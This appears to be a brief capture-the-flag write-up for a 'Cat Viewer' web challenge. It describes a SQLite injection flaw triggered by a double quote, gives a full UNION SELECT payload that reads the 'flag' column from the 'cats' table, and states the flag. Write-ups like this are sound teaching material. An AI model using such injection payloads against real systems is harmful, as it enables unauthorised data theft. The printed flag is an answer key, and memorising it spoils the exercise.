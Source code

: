 # Cat Viewer - Web Exploitation

## Ideas
The given website vulnerable to SQLite Injection with double quote `"`

![SQLite Injection](SQLiteInjection.png)

Using UNION SELECT query we can printout the flag in `flag` column. Full Payload: 
```
" UNION SELECT 1,2,flag,4 from cats -- -
```
![Flag](Flag.png)



## Flag

flag{a_sea_of_cats}
